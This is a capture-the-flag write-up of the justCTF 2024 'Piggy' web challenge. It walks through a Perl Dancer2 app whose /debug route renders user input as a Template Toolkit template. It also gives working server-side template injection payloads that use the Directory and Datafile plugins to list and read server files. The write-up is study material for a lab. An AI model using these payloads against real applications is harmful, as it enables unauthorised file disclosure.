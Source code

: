 # Piggy

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- Contributor: @jose.fk
- 61 solves / 180 points
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

Who is such a piggy (ツ)

_Many players ask about piggy being broken (missing flag.txt) but it works as intended._

- [http://piggy.web.jctf.pro](http://piggy.web.jctf.pro)
    
- https://s3.cdn.justctf.team/f2af71a7-f199-47a7-9934-013a168a76f7/piggy_docker.tar.gz

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616160252.png)

## Enumeration

**Index page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616161132.png)

In here, it is just a welcome page, nothing special. Hmm... Let's read the source code of this web application!

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/Web/Piggy/piggy_docker.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/justCTF-2024-teaser/Web/Piggy)-[2024.06.16|16:15:43(HKT)]
└> file piggy_docker.tar.gz 
piggy_docker.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 289280
┌[siunam♥Mercury]-(~/ctf/justCTF-2024-teaser/Web/Piggy)-[2024.06.16|16:15:45(HKT)]
└> tar xvzf ./piggy_docker.tar.gz 
./
./Dockerfile
./views/
./views/index.tt
./public/
./public/images/
./public/images/piggy.webp
./config.yml
./app.pl
./flag.txt
./docker-compose.yaml
```

After reviewing the source code, we have the following findings!

- The flag is *seemingly* at `/app/flag.txt` (The `COPY . .` Docker command from the `Dockerfile`)
- This web application is written in Perl's **[Dancer2](https://metacpan.org/pod/Dancer2)** web application framework
- This web application uses Perl's **[Template Toolkit](https://template-toolkit.org/)** to render templates

Let's dive into the web application main logic source code at `app.pl`!

First, at GET route `/`, it just render the template `views/index.tt` with a randomly chosen `greetings` string: 

```perl
[...]
use Dancer2;
use Template;

my @greetings = ("Hello", "Ebe", "Greetings", "Hi", "Good day");

get '/' => sub {
    my $greeting = $greetings[rand @greetings];
    template 'index' => {
        greeting => $greeting
    };
};
[...]
```

`views/index.tt`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Piggy</title>
    <style>
        [...CSS stuff...]
    </style>
</head>
<body>
    <h1>[% greeting %]! Welcome to our app.</h1>
    <p>This is Piggy, your friendly task companion!</p>
    <img src="/images/piggy.webp" alt="Laughing Pig">
</body>
</html>
```

Hmm... Nothing weird and interesting for us in this route.

**However, there's a peculiar POST route at `/debug`:** 
```perl
[...]
post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};
[...]
```

In this POST route, we can see that it takes a `debug` POST body parameter, and parses it with the `process` method to render our template literals!

With that said, this POST route is basically **SSTI (Server-Side Template Injection) in Perl's Template Toolkit** for free!

In Template Toolkit's [syntax documentation](https://template-toolkit.org/docs/manual/Syntax.html), the default tag markers are `[%` and `%]`.

**Let's try to let the server to render `49` with `[% 7*7 %]` at POST route `/debug`!**
```http
POST /debug HTTP/1.1
Host: 5al1vghdkve4bhweufft29r3nsvp22.piggy.web.jctf.pro
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

debug=[% 7*7 %]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616163752.png)

Nice! It worked as expected!

Now, how can we read the flag file?

## Exploitation

After digging the [plugins documentation](https://template-toolkit.org/docs/manual/Plugins.html), there're some interesting plugins that are related to reading/listing the file system!

More specifically, plugin "**[Directory](https://template-toolkit.org/docs/manual/Plugins.html#section_Directory)**" and "**[Datafile](https://template-toolkit.org/docs/manual/Plugins.html#section_Datafile)**" can **list all the files** with a provided path and **read files**.

First, let's list all the files at path `/app/` with plugin **Directory**!

**In the [detailed documentation of the plugin Directory](https://template-toolkit.org/docs/modules/Template/Plugin/Directory.html), we can do that with this template syntax:**
```
[% USE dir = Directory('/app/') %]
[% FOREACH file = dir.files %]
    [% file.name %]
[% END %]
```

In this syntax, it lists all the filenames at path `/app/`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616165127.png)

Nice! We got the flag's filename. In my case, it's `flag_980aef6e461ca1009ea62da051753b38.txt`.

Then, we can read the flag's file via plugin **Datafile**!

By reading the [detailed documentation of the plugin Datafile](https://template-toolkit.org/docs/modules/Template/Plugin/Datafile.html), we can use this syntax the read the flag file:

```
[% USE flagContent = datafile('/app/flag_980aef6e461ca1009ea62da051753b38.txt') %]
[% FOREACH flag = flagContent %]
   [% flag %]
[% END %]
```

However, if we do that, it just outputs the hash reference to the flag file:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616165649.png)

In the documentation, it said:

> **The first line defines the field names**, **delimited by colons** with optional surrounding whitespace. Subsequent lines then defines records containing data items, also delimited by colons. [...]

Uhh... Can we set a delimiter character other than a colon (`:`) character?

Luckily, the plugin also allows us to **set the delimiter character via the `delim` parameter**:

```
[% USE things   = datafile('items', delim = '|') %]
```

Hmm... What character should we use for the delimiter character?

**In the local testing flag, we can see the flag file's content:**
```
Here is your fat flag:
justCTF{fake}
```

Ah ha! We can use space character as the delimiter character!

**Now, we should be able to read the flag's content via `flag.Here` using the space character for the delimiter character!**
```
[% USE flagContent = datafile('/app/flag_980aef6e461ca1009ea62da051753b38.txt', delim = ' ') %]
[% FOREACH flag = flagContent %]
   [% flag.Here %]
[% END %]
```

The reason why we use `Here` as the key is because this plugin uses **the first line to define the field names**, and **the delimeter in this case is a space character**. Hence, the first word for each line will be with the field name `Here`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/justCTF-2024-teaser/images/Pasted%20image%2020240616170550.png)

- **Flag: `justCTF{0iNk_oinKxD}`**

## Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in Perl "Template Toolkit"